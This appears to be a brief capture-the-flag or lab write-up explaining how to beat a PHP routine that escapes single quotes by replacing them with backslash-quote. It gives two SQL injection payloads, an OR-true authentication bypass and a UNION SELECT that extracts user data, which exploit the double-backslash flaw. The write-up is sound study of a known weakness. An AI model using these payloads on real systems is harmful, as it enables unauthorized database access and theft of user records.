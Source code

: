 # Hint
```php
str_replace("'", "\\'", $str);
```

```
'   -> \'
\'  -> \\'
```

# Method 1
```
1\' OR blablabla = true #
SELECT * FROM `user` WHERE `1\\' OR blablabla = true # blablabla
```

# Method 2
```
1\' UNION SELECT 1, user, 1, trueorfalse FROM `user` #  
```

